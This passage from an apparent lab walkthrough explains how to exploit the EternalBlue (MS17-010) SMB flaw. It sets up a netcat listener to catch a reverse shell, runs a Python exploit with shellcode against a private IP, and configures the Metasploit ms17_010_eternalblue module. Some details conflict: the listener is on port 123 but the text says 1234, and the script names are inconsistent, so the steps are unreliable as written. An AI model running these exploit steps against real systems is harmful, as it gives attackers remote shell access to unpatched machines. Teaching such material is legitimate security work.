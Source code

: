 ```
nc -nvlp 123
```
- `-l`: Listener | This tells Netcat to listen for incoming connections 
- `-p 1234`: Specifies the port number to listen on, which in this case is port 1234.
- `-n`: (Optional) | Tells Netcat not to resolve hostnames (use raw IP addresses instead). This speeds things up and avoids DNS lookups.
- `-v`:  (Optional) Runs Netcat in **verbose** mode, providing detailed output

This creates a simple server that will wait for incoming data or connections on the chosen port. We'll need to keep the tab open and wait for the shell. With the listener setup, now we can run the python executables for the exploit.

##### Running the Exploit

1. We're going to run the bash script `shell_prep.sh`. Make sure to add execution permissions to the python script before attempting to run it:

```
chmod +x eternalblue_exploit7.py
```
- `+x` = Adds execution permission onto the script

2. **Execute the script**: Specify the `eternalblue_exploit*.py` script, target and then the binary file for the shellcode
```
python eternalblue_exploit_py target shellcode_binary
```

Example
```
python eternalblue_exploit7.py 10.82.54.22 shellcode/sc_x64.bin
```

If you go back to the netcat listener, you'll see the cmd-shell open from it.

### Option B.) Exploit with Metasploit

1. Open `msfconsole`
```
msfconsole
```

2. Search for the Eternal Blue exploit:  There's an auxiliary module (auxiliary/scanner/smb/smb_ms17_010) that tells you if the system is vulnerable and a exploit module `exploit/windows/smb/ms17_010_eternalblue`. Go and select the exploit....
```
search eternalblue

use exploit/windows/smb/ms17_010_eternalblue
```
3. Configure and run the exploit module: Mainly just need to set the target and your machine's IP and local port.
	- `RHOSTS` = Target system 
	- `LHOST`/`LPORT` | Your system's local host IP and its listening port

```
set RHOSTS 10.82.54.22 
```
